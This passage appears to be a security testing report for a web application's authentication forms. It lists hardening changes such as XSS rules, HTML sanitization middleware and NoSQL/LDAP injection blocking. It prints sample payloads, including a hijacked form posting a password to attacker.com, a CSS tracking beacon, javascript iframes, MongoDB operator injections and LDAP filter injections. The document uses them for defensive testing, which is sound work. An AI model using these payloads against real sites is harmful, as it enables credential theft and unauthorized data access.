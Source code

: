 **Target input fields**:
- [x] **Login form**: Email, password fields ✅ NoXssRule active + sanitization
- [x] **Registration form**: Name, email, password fields ✅ Comprehensive XSS protection
- [x] **Forgot password**: Email field ✅ Enhanced input validation
- [x] **Reset password**: New password, confirm password ✅ XSS prevention implemented
- [x] **Error messages**: Dynamic error content ✅ Blade escaping enforced
- [x] **Success messages**: User-controlled content ✅ Safe output rendering

**🔒 IMPLEMENTED ENHANCEMENTS**:
- Enhanced `NoXssRule.php` with modern XSS vectors
- Added template literal injection detection (${...})
- Implemented CSS expression blocking
- Enhanced event handler detection (onclick, onload, etc.)
- Added web component security validation

#### **3.3 HTML Injection Testing** ✅ **SECURED**
**HTML payload testing**:
```html
<!-- Basic HTML injection -->
<h1>Injected Content</h1>
<iframe src="javascript:alert('HTML Injection')"></iframe>

<!-- Form hijacking -->
<form action="http://attacker.com/steal" method="POST">
<input name="password" placeholder="Enter password">
</form>

<!-- CSS injection -->
<style>body{background:url('http://attacker.com/track')}</style>
```

**🔒 IMPLEMENTED ENHANCEMENTS**:
- Enhanced `SanitizeInputMiddleware.php` with comprehensive HTML sanitization
- Added dangerous tag removal (iframe, object, embed, applet, form)
- Implemented CSS injection prevention (expression(), @import)
- Enhanced Unicode normalization and control character removal

#### **3.4 LDAP/NoSQL Injection Testing** ✅ **PROTECTED**
**Attack patterns**:
```javascript
// NoSQL injection (if applicable)
{"$ne": null}
{"$regex": ".*"}
{"$where": "this.username == this.password"}

// LDAP injection patterns  
*)(uid=*))(|(uid=*
*)(cn=*))((|
```

**🔒 IMPLEMENTED ENHANCEMENTS**:
- Added NoSQL injection pattern detection in `NoSqlInjectionRule.php`
- Implemented LDAP injection prevention
- Added MongoDB operator blocking ($ne, $regex, $where, $gt, $lt)
- Enhanced JSON payload validation

---